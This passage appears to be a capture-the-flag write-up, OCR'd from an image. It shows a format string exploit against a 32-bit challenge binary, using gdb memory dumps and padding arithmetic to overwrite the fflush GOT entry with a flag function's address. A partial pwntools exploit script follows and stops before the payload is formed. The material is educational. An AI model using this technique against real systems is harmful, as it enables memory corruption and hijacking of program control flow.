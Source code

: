 ```
gef➤  x/2w 0x804a028
0x804a028:    0x52005252    0xf7000000
```

So we can see that the value the printf write by default is `0x52`. We need the first byte to be `0x0b` to match the `flag` function's address `0x0804870b`. We will just add `185` bytes to change the value to `0x10b` so the byte there will be `0x0b`. The `0x01` will overflow into the second byte, however that will be overwritten with the second write so we don't need to worry about it yet. When we append `%185x` to the first write and check the memory layout afterwards, we see this:

```
Breakpoint 1, 0x080487dc in main ()
gef➤  x/2x 0x0804a028
0x804a028:    0x0b010b0b    0xf7000001
```

So we can see that the first byte is `0x0b` which is what it should be. Now for the second write, we need the second and third byte to be equal to `0x0487`, and it is `0x010b`. So we need to add `0x0487 - 0x010b = 892` bytes to get it there. When we add `%892x` to the second write, we see that this is the new address that is written:

```
Breakpoint 1, 0x080487dc in main ()
gef➤  x/2x 0x0804a028
0x804a028:    0x8704870b    0xf7000004
```

So we can see that all of the bytes with the exception of the fourth byte are correct. Now we just need to add `(0x100 - 0x87) + 0x8 = 129` bytes to get the fourth byte equal to `0x08`. Of course this will spill over to the next dword (if you check the last couple of memory layouts, you can see it's value change as we overwrite part of it). However that value isn't used in anyway that would crash or prevent us from pulling this off, so we don't need to worry about it. When we add the final "bytes printed padding" (if you can call it that) we end up with this exploit:

```
#Import pwntools
from pwn import *

#Establish the target process, or network connection
target = process('./32_new')
#target = remote('163.172.176.29', 9035)

#Attach gdb if it is a process
#gdb.attach(target, gdbscript='b *0x080487dc')

#Print the first line of text
print target.recvline()

#Prompt for input, to pause for gdb
#raw_input()

#Establish the addresses which we will be writing to
fflush_adr0 = p32(0x804a028)
fflush_adr1 = p32(0x804a029)
fflush_adr2 = p32(0x804a02b)

#Establish the amount of bytes needed to be printed in order to write correct value
flag_val0 = "%185x"
flag_val1 = "%892x"
flag_val2 = "%129x"

#Establish the necessary inputs for our input, so we can write to the addresses
fmt_string0 = "%10$n"
fmt_string1 = "%11$n"
fmt_string2 = "%12$n"

#Form the payload
```